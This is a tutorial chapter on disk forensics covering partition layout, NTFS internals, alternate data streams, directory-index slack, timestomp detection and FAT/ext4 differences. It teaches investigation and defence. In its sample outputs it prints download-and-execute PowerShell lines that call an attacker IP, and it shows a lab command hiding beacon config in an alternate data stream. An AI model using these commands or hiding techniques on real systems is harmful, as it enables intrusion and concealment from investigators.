






**Level:** Advanced · **Track:** DFIR & Incident Response · **Read time:** 240 min

This is Chapter 3 of the DFIR notebook. Chapter 2 ended with a verified `.E01` on your analysis workstation and a hash that proves it matches the source. This chapter is what you do next: pull that image apart, understand the file system underneath it, recover what was deleted, and reconstruct — minute by minute — what a human being did on that machine.

Acquisition is a procedure. Analysis is an investigation. The difference matters because acquisition has one right answer (a byte-identical image with a matching hash) while analysis has as many wrong answers as you have untested assumptions. A file's "date modified" in Windows Explorer is not a fact; it is one of eight timestamps that particular file carries, the one an attacker can trivially rewrite. A "deleted" file is not gone; on a spinning disk it is usually intact and merely unreferenced, and on an SSD it may have been electrically erased four seconds after the delete. Knowing which is which is the entire skill.

Everything here is written for lawful work — incident response on systems your organisation owns, authorised investigations, CTF and DFIR-lab evidence, and building the muscle memory you need before you touch real evidence. Analyse only images you are authorised to analyse, and always work on a copy of the copy.

---

## How Deep This Chapter Goes

By the end you should be able to take a raw `.dd` or `.E01` from a Windows or Linux host and, without a GUI if necessary:

- Identify the partitioning scheme and locate every volume, including ones the OS refuses to show you.
- Explain what the file system is doing at each of the five forensic layers and pick the right tool for each layer.
- Read an NTFS `$MFT` record by hand, distinguish resident from non-resident data, decode a runlist, and find data hidden in an alternate data stream.
- Prove or disprove timestomping by comparing `$STANDARD_INFORMATION` against `$FILE_NAME`.
- Recover deleted files by metadata (still-intact MFT entry) and by carving (metadata gone), and know when neither will work.
- Build a super timeline that fuses file system MACB times with registry, Prefetch, event log, and browser artifacts.
- Defend every one of those findings when someone asks "how do you know?"



---

## Part 1: How Storage Is Actually Organised

Before file systems, there is geometry. A forensic image is a flat sequence of bytes, and every tool you will use navigates that flat sequence using offsets. If you get an offset wrong, every subsequent conclusion is wrong, so start here.

### Sectors, blocks, and the 512e lie

The smallest addressable unit on a disk is the **sector**. Classic disks use 512-byte sectors. Modern drives use 4096-byte physical sectors ("Advanced Format", 4Kn) but many still *report* 512-byte logical sectors for compatibility — this is called **512e** (512-emulated). This matters because `dd`, `mmls`, and `fdisk` all speak in sectors, and if you assume 512 when the tool is reporting 4096 your offsets will be off by a factor of eight.

```bash
# Check both sector sizes on a live device before imaging
sudo blockdev --getss  /dev/sdb    # logical sector size  -> 512
sudo blockdev --getpbsz /dev/sdb   # physical sector size -> 4096
sudo blockdev --getsize64 /dev/sdb # total size in bytes
```

| Term | Size | Who defines it | Why forensics cares |
|---|---|---|---|
| Physical sector | 512 or 4096 B | Drive firmware | Determines write granularity, affects slack behaviour |
| Logical sector | usually 512 B | Drive firmware (512e) | The unit `mmls`/`dd` offsets are counted in |
| Cluster / block | 512 B – 64 KB | File system | Smallest *allocatable* unit; source of file slack |
| Page (SSD) | 4–16 KB | NAND | Smallest programmable unit |
| Erase block (SSD) | 128 KB – 4 MB | NAND | Smallest erasable unit — the root of TRIM behaviour |

**Why the cluster matters more than the sector:** a file system allocates space in clusters. A 1-byte file in a file system with 4 KB clusters consumes 4 KB. The 4095 unused bytes are **file slack**, and on many file systems they still contain whatever was in that cluster before. Slack is where fragments of previously deleted documents live, and it is invisible to every normal file-browsing tool.

### MBR versus GPT

Two partitioning schemes dominate.

**MBR (Master Boot Record)** lives in sector 0. It contains 446 bytes of boot code, a 64-byte partition table holding exactly four 16-byte entries, and the signature `0x55AA`. Four primary partitions maximum; more requires an *extended* partition containing a linked list of *logical* partitions. Maximum addressable size is 2 TiB with 512-byte sectors.

**GPT (GUID Partition Table)** starts at LBA 1 with a header, followed by a partition entry array (typically 128 entries × 128 bytes). LBA 0 holds a **protective MBR** — a fake single partition of type `0xEE` spanning the disk — whose only job is to stop legacy tools from thinking the disk is unpartitioned and "helpfully" repartitioning it. GPT also keeps a **backup copy** of the header and entry array at the very end of the disk.

**Forensic relevance of the GPT backup:** if the primary GPT was wiped to hide a partition, the backup at the end of the disk often still describes it. `gdisk -l` and `testdisk` will read the backup. A partition that exists in the backup table but not the primary is a strong tampering indicator worth documenting explicitly.



### Reading the layout of an image

`mmls` is The Sleuth Kit's volume-system tool and is normally the very first command you run against an image. (Full TSK teaching is in Part 7; this is a preview because you cannot discuss layout without it.)

```bash
mmls evidence.dd
```

```
DOS Partition Table
Offset Sector: 0
Units are in 512-byte sectors

      Slot      Start        End          Length       Description
000:  Meta      0000000000   0000000000   0000000001   Primary Table (#0)
001:  -------   0000000000   0000002047   0000002048   Unallocated
002:  000:000   0000002048   0001026047   0001024000   NTFS / exFAT (0x07)
003:  000:001   0001026047   0062914559   0061888513   NTFS / exFAT (0x07)
004:  -------   0062914560   0062914703   0000000144   Unallocated
```

Read that output carefully — three things in it are investigatively interesting:

1. **Sectors 0–2047 are unallocated.** That is normal (alignment gap before the first partition), but it is also a classic hiding place: 1 MB of space that no file system claims and no OS shows. Always extract and examine it.
2. **The 144 unallocated sectors at the end** are similarly unclaimed. On a GPT disk this region holds the backup GPT; on an MBR disk it is often leftover from a previous partitioning.
3. **Two NTFS volumes**, the first only 500 MB — that is the Windows System Reserved / recovery partition. It holds the boot configuration data and is frequently ignored by novices, and is exactly where bootkit persistence lives.

```bash
# Extract the pre-partition gap for inspection
dd if=evidence.dd of=gap_start.bin bs=512 skip=0 count=2048 status=none
strings -n 8 gap_start.bin | head
xxd gap_start.bin | head -3
```

To work on a single partition, you tell TSK the offset with `-o` (in sectors) rather than carving out a separate file:

```bash
fsstat -o 1026047 evidence.dd     # offset taken straight from the mmls Start column
```

**Pentester / red team relevance:** the same gaps are where "slack space" persistence and bootkits (classic MBR bootkits, and modern ESP-resident UEFI implants) live. If you are on the offensive side, understanding that `mmls` shows unclaimed regions tells you why hiding there is not actually hiding.

---

## Part 2: The Five-Layer Model Every Forensic Tool Is Built On

Brian Carrier's *File System Forensic Analysis* introduced the abstraction that The Sleuth Kit implements directly, and once it clicks, every TSK tool name becomes self-explanatory. A file system is analysed at five layers:

| Layer | What lives there | Question it answers | TSK tools |
|---|---|---|---|
| **File System** | Superblock / boot sector, layout parameters | "What kind of FS, what cluster size, where does everything start?" | `fsstat` |
| **File Name** | Directory entries mapping names to metadata IDs | "What is this file called and where does it appear in the tree?" | `fls`, `ffind` |
| **Metadata** | Inodes / MFT records: timestamps, size, permissions, pointers | "When was it touched, how big, which blocks hold it?" | `istat`, `ils`, `icat`, `ifind` |
| **Data Unit** | Clusters / blocks: the actual content | "What bytes are in this block, and is it allocated?" | `blkcat`, `blkls`, `blkstat`, `blkcalc` |
| **Application** | File content structure (registry, EVTX, JPEG) | "What does the content *mean*?" | `bulk_extractor`, parsers, Autopsy modules |

The critical insight is that **the layers can disagree, and disagreement is evidence**.

- A name with no valid metadata → the file was deleted and its MFT record reused.
- Metadata with no name (`ils` shows an orphan inode) → the directory entry is gone but the content pointers survive. You can still recover the file, you just do not know its original name.
- A data unit marked allocated but claimed by no metadata → possible hidden data or file system corruption.
- Two metadata records pointing at the same cluster → cross-linked, usually corruption, occasionally deliberate.



**Why this beats 'just open it in a GUI':** Autopsy is excellent, and Part 9 teaches it properly, but a GUI shows you the file name layer by default. Every subtle finding in disk forensics — the deleted file whose name was reused, the data hidden in unallocated space, the ADS that Explorer will never list — lives one or two layers below what the GUI shows first.

---

## Part 3: NTFS Internals — Everything Is a File

NTFS is the file system you will analyse most often, and it has one design idea that explains almost all of its forensic richness: **everything on the volume, including the file system's own bookkeeping, is stored as a file.** Those internal files are called *metafiles* and their names begin with `$`.

### The metafiles

| MFT # | Name | Purpose | Forensic value |
|---|---|---|---|
| 0 | `$MFT` | The Master File Table itself | The core artifact; one record per file |
| 1 | `$MFTMirr` | Backup of first 4 MFT records | Recovery if MFT start is damaged |
| 2 | `$LogFile` | Transaction journal (NTFS metadata journaling) | Recent create/delete/rename operations, often minutes-to-days of history |
| 3 | `$Volume` | Volume label, version, dirty flag | Volume serial, version, whether cleanly unmounted |
| 4 | `$AttrDef` | Attribute type definitions | Rarely useful |
| 5 | `.` | Root directory | Entry point of the tree |
| 6 | `$Bitmap` | One bit per cluster: allocated or not | Defines what "unallocated" means for this volume |
| 7 | `$Boot` | Boot sector (and backup at volume end) | Cluster size, MFT location, volume serial |
| 8 | `$BadClus` | Bad-cluster map | **Classic hiding spot** — data marked "bad" is skipped by the OS |
| 9 | `$Secure` | Security descriptors (ACLs) | Ownership/permission history |
| 11 | `$Extend` | Directory of extended metafiles | Contains `$UsnJrnl`, `$Quota`, `$ObjId`, `$Reparse` |
| — | `$Extend\$UsnJrnl:$J` | Update Sequence Number change journal | **Extremely high value** — a per-file change log |

**IR use case:** on a machine where the attacker deleted their tooling, `$UsnJrnl:$J` frequently still lists the *file names* that were created and deleted, with USN ordering, long after the files and their MFT records are gone. It is often the single best answer to "what was here before they cleaned up?"

### The MFT record

Every file and directory gets at least one MFT record, normally 1024 bytes. The record is a header followed by a sequence of **attributes**. A file is not "a file with some metadata" — a file *is* its set of attributes.

| Attribute type | Hex | Contents | Notes |
|---|---|---|---|
| `$STANDARD_INFORMATION` | `0x10` | MACE timestamps, flags, owner/quota/USN | **Always resident**; the times Explorer shows; user-writable |
| `$ATTRIBUTE_LIST` | `0x20` | Pointers to other MFT records | Appears when attributes outgrow one record |
| `$FILE_NAME` | `0x30` | Name, parent reference, a *second* MACE set | One per name (8.3 + long); kernel-updated |
| `$DATA` | `0x80` | The file content | Unnamed = normal content; named = **ADS** |
| `$INDEX_ROOT` | `0x90` | Directory index (small dirs) | Resident B-tree root |
| `$INDEX_ALLOCATION` | `0xA0` | Directory index (large dirs) | Non-resident; `$I30` slack lives here |
| `$BITMAP` | `0xB0` | Allocation bitmap for the index | Which index entries are in use |
| `$REPARSE_POINT` | `0xC0` | Junctions, symlinks, dedup, cloud placeholders | OneDrive/dedup files look empty without parsing this |

### Resident versus non-resident data

If a file's content fits in the space left in its 1024-byte MFT record — in practice, roughly **under 700–800 bytes** — NTFS stores the content *inside the MFT record itself*. This is a **resident** `$DATA` attribute. Larger content is **non-resident**: stored in clusters elsewhere, with the MFT record holding a **runlist** describing where.

This has three consequences that come up constantly:

1. **Tiny files leave no cluster footprint.** A 300-byte `notes.txt` never occupies a data cluster, so carving unallocated space will never find it. Its content lives and dies with its MFT record.
2. **Deleting a small file does not free any cluster.** Recovery means recovering the MFT record — `icat` on the inode works perfectly, right up until the record is reused.
3. **Resident content survives in the `$MFT` file itself.** Even after deletion, a `strings` pass over the extracted `$MFT` will surface fragments of small text files, script snippets, and configuration. This is a genuinely underused trick.

```bash
# Extract $MFT from a mounted-offset image and mine it
icat -o 1026047 evidence.dd 0 > MFT.raw
ls -lh MFT.raw
strings -n 12 MFT.raw | grep -iE 'powershell|http://|https://|Invoke-' | head -20
```

```
-rw-r--r-- 1 analyst analyst 268M Mar  2 11:04 MFT.raw
IEX (New-Object Net.WebClient).DownloadString('http://198.51.100.24/a.ps1')
http://198.51.100.24/beacon.exe
Invoke-WebRequest -Uri http://198.51.100.24/rc.exe -OutFile C:\Users\Public\rc.exe
```

Those three lines came out of a *deleted* 400-byte batch file whose MFT record had not yet been reused. No cluster on the disk ever held that text.

### Runlists — how non-resident content is addressed

A runlist is a compact, variable-length encoding of "N clusters starting at offset X", where X is a **signed delta from the previous run's start**. Encoding it by hand is rarely necessary, but reading `istat` output is:

```bash
istat -o 1026047 evidence.dd 4512
```

```
MFT Entry Header Values:
Entry: 4512        Sequence: 3
$LogFile Sequence Number: 118422105
Allocated File
Links: 1

$STANDARD_INFORMATION Attribute Values:
Flags: Archive
Owner ID: 0
Security ID: 1289
Created:        2027-01-14 09:12:44.113822700 (UTC)
File Modified:  2027-01-14 09:12:44.128411300 (UTC)
MFT Modified:   2027-01-14 09:12:44.128411300 (UTC)
Accessed:       2027-01-14 09:12:44.113822700 (UTC)

$FILE_NAME Attribute Values:
Flags: Archive
Name: quarterly_report.docx
Parent MFT Entry: 3811   Sequence: 2
Created:        2027-01-14 09:12:44.113822700 (UTC)
File Modified:  2027-01-14 09:12:44.113822700 (UTC)
MFT Modified:   2027-01-14 09:12:44.113822700 (UTC)
Accessed:       2027-01-14 09:12:44.113822700 (UTC)

Attributes:
Type: $STANDARD_INFORMATION (16-0)   Name: N/A   Resident   size: 72
Type: $FILE_NAME (48-2)   Name: N/A   Resident   size: 90
Type: $DATA (128-3)   Name: N/A   Non-Resident   size: 4718592  init_size: 4718592
90210 90211 90212 90213 90214 90215 ...
```

The bare numbers at the bottom are the allocated clusters. `icat` follows them for you; `blkcat` lets you read any one of them directly.

### Alternate Data Streams

A named `$DATA` attribute is an **alternate data stream**. `secret.txt:hidden` is one file with two `$DATA` attributes. `dir` shows only the size of the unnamed stream; the ADS is invisible to almost every ordinary tool.

```powershell
# Creating one (Windows, lab only)
echo "beacon config: 198.51.100.24:443" > C:\temp\readme.txt:cfg
Get-Item C:\temp\readme.txt -Stream *      # PowerShell 3.0+ lists streams
dir /r C:\temp                              # cmd.exe: /r shows streams
```

```
FileName: C:\temp\readme.txt
Stream    Length
------    ------
:$DATA         0
cfg           34
```

**Forensically, ADS are trivially visible** — because to TSK, an ADS is just another attribute:

```bash
fls -o 1026047 -r evidence.dd | grep ':'      # ADS appear as inode-attr pairs
istat -o 1026047 evidence.dd 7719             # shows both $DATA attributes
icat -o 1026047 evidence.dd 7719-128-5        # read the *named* stream by attribute ID
```

```
r/r 7719-128-4:  Users/jsmith/Downloads/readme.txt
r/r 7719-128-5:  Users/jsmith/Downloads/readme.txt:cfg
```

**Red team usage:** ADS remain a real, still-working stealth primitive for storing payload configuration on disk — but note that Windows adds a `Zone.Identifier` ADS to every downloaded file, so an unusual stream name in Downloads stands out sharply in a review. **Blue team usage:** hunt with `Get-ChildItem -Recurse | Get-Item -Stream * | Where-Object Stream -ne ':$DATA'` and alert on any stream that is not `Zone.Identifier`. **CTF relevance:** hidden-flag-in-ADS is a recurring Windows forensics challenge on TryHackMe and CyberDefenders; `fls`/`icat` solve it in two commands.

### `$I30` index slack — the directory that remembers

Directories store their entries in a B-tree inside `$INDEX_ROOT` / `$INDEX_ALLOCATION` (the `$I30` index). When a file is deleted, its index entry is removed from the tree by adjusting offsets — but the old entry bytes frequently remain in the **slack of the index allocation blocks**. Parsing that slack recovers file names, sizes, and all four `$FILE_NAME` timestamps for files that were deleted long ago.

```bash
# Extract a directory's index allocation and parse slack
icat -o 1026047 evidence.dd 3811-160-6 > Downloads_I30.bin
python3 INDXParse.py -d Downloads_I30.bin --slack     # Willi Ballenthin's INDXParse
```

```
FILENAME     PHYSICALSIZE  LOGICALSIZE  MODIFIED             ACCESSED             CHANGED              CREATED
mimikatz.exe 1265664       1264776      2027-01-11 22:04:18  2027-01-11 22:06:02  2027-01-11 22:04:18  2027-01-11 22:03:57
psexec.exe   381816        381816       2027-01-11 22:09:41  2027-01-11 22:10:12  2027-01-11 22:09:41  2027-01-11 22:09:33
```

Those files are gone. Their MFT records were reused. Their clusters were overwritten. The directory index slack still names them, sizes them, and timestamps them. This is one of the highest-value NTFS tricks and it routinely survives attacker cleanup.

---

## Part 4: NTFS Timestamps and the Anatomy of Timestomping

NTFS keeps **two** sets of four timestamps per file name, which is why practitioners say "eight timestamps".

| Set | Where | Updated by | Attacker-writable? |
|---|---|---|---|
| `$STANDARD_INFORMATION` (SI) | Attribute `0x10` | Normal file operations; **settable via the documented `SetFileTime` API** | **Yes, trivially** |
| `$FILE_NAME` (FN) | Attribute `0x30` | Kernel only, on create / rename / move / hardlink | Not through documented APIs |

Each set carries four values, remembered as **MACB**:

| Letter | Name | Meaning | Notes |
|---|---|---|---|
| **M** | Modified | Content last changed | The one users think of as "the date" |
| **A** | Accessed | Last read | **Disabled by default on modern Windows** (`NtfsDisableLastAccessUpdate=1`), so absence proves nothing |
| **C** | Changed (MFT Modified) | Metadata record last changed | Updated on permission/name/attribute changes |
| **B** | Birth (Created) | File creation | Survives copy differently than move — see below |

### The rules that make timestamps interpretable

- **Copy** a file: destination gets a **new** Birth time (now), and typically retains the source's Modified time. So `B > M` — a file "created" after it was "modified" — is the normal signature of a *copy*, not of tampering.
- **Move within the same volume**: it is a rename. All times are preserved; only FN Changed updates.
- **Move across volumes**: it is a copy plus a delete. New Birth time.
- **Download**: Birth = download time; Modified often = the time on the origin server.

### Detecting timestomping

The core detection is **SI/FN disagreement**. Tools like `timestomp` (Metasploit), `SetMace`, and countless custom loaders call `SetFileTime`, which writes only the SI set. The FN set keeps the truth.

```bash
istat -o 1026047 evidence.dd 8823
```

```
$STANDARD_INFORMATION Attribute Values:
Created:        2009-07-14 01:14:24.000000000 (UTC)
File Modified:  2009-07-14 01:14:24.000000000 (UTC)
MFT Modified:   2009-07-14 01:14:24.000000000 (UTC)
Accessed:       2009-07-14 01:14:24.000000000 (UTC)

$FILE_NAME Attribute Values:
Name: svch0st.exe
Created:        2027-01-11 22:14:07.663291200 (UTC)
File Modified:  2027-01-11 22:14:07.663291200 (UTC)
MFT Modified:   2027-01-11 22:14:07.663291200 (UTC)
Accessed:       2027-01-11 22:14:07.663291200 (UTC)
```

Read the indicators in order of strength:

1. **SI is nine years older than FN.** The FN set is written by the kernel when the name is created; a file cannot have been named after it existed in that directory. This is near-conclusive.
2. **All four SI timestamps are identical to the second, with zeroed sub-second precision.** Genuine NTFS timestamps have 100-nanosecond granularity and effectively never end in `.000000000` across all four values. `timestomp`'s `-z` option sets whole seconds. This alone is a strong flag.
3. **`2009-07-14 01:14:24`** is the well-known build timestamp of Windows 7 system files — a lazy copy of `kernel32.dll`'s date. Attackers who "blend in" by copying a system file's timestamp create a cluster of files sharing one improbable timestamp.
4. **MFT entry number is high** (8823) relative to genuinely old files. MFT entries are allocated roughly in creation order early in a volume's life; a file claiming to be from 2009 sitting in a record number surrounded by records from last month is anomalous. Not conclusive on its own — records get reused — but corroborating.

**Anti-anti-forensics note:** `SetMace` and similar tools *can* write FN timestamps by manipulating the volume directly, defeating check #1. That is why you never rely on a single indicator. Cross-check against sources the attacker did not think to edit: `$UsnJrnl` records the change with its own timestamp; `$LogFile` holds the transaction; Prefetch, Amcache, and the Security event log record execution independently; and `$I30` index entries carry a third copy of the FN times.



**Bug bounty relevance:** limited directly — but the same reasoning applies when you are asked to prove *when* you found something in a disclosure dispute, and file-metadata forgery detection is a real category in forensic-readiness reviews.

---

## Part 5: Other File Systems and What Changes

You will not only meet NTFS. The method transfers; the specifics do not.

### FAT32 and exFAT

FAT is simple, which cuts both ways. There is no journal, no ACL, no MFT — just a **File Allocation Table** (a chain of cluster pointers) and **directory entries** holding name, attributes, start cluster, size, and timestamps.

| Property | FAT32 | exFAT | NTFS |
|---|---|---|---|
| Max file size | 4 GiB − 1 | ~16 EiB | ~16 TiB (practical) |
| Timestamps | Create (2 s), Modify (2 s), Access (**date only**) | Create/Modify (10 ms) + UTC offset, Access | 8 × 100 ns |
| Timezone | **Local time, no TZ stored** | UTC offset field | UTC |
| Journal | None | None (has allocation bitmap) | `$LogFile` + `$UsnJrnl` |
| Deletion behaviour | First name char becomes `0xE5`, FAT chain zeroed | Entry flag cleared, bitmap cleared | MFT flag cleared, `$Bitmap` cleared |

Two forensic consequences dominate:

- **FAT stores local time.** A photo on a camera SD card with a "modified" time of 14:32 is 14:32 *in whatever timezone the device thought it was in*. Do not silently normalise to UTC; document the ambiguity. This single issue produces more wrong timelines on USB/SD evidence than any other.
- **FAT deletion destroys the cluster chain.** The directory entry keeps the *start* cluster and the size, so a **contiguous** deleted file recovers perfectly; a **fragmented** one recovers only its first fragment, then garbage. NTFS by contrast keeps the whole runlist in the MFT record, so fragmented NTFS files recover fine until the record is reused.

### ext4 (Linux)

- Metadata is in **inodes**; names live in directory entries; the two are separate exactly as in the five-layer model.
- Timestamps: `atime`, `mtime`, `ctime` (inode change), and — crucially for forensics — **`crtime` (birth)**, which exists on-disk in ext4 but which `stat` on older tooling does not print. Use `debugfs -R 'stat <inode>' /dev/sdX` or TSK's `istat` to see it.
- **Deletion is destructive to recovery.** ext4 zeroes the extent tree / block pointers in the inode on unlink (unlike ext3's partial behaviour). Metadata-based recovery of deleted ext4 files is usually **not** possible; you fall back to carving unallocated space or to the journal.
- The **ext4 journal (`jbd2`)** may still hold older copies of inode blocks. `debugfs -R "logdump -i <8>"` and `ext4magic` exploit exactly this to recover files deleted within the journal's window.

```bash
# ext4: read birth time and full inode detail
sudo debugfs -R 'stat <131078>' /dev/sdb1
sudo debugfs -R 'ls -d /home/user' /dev/sdb1     # -d shows deleted entries
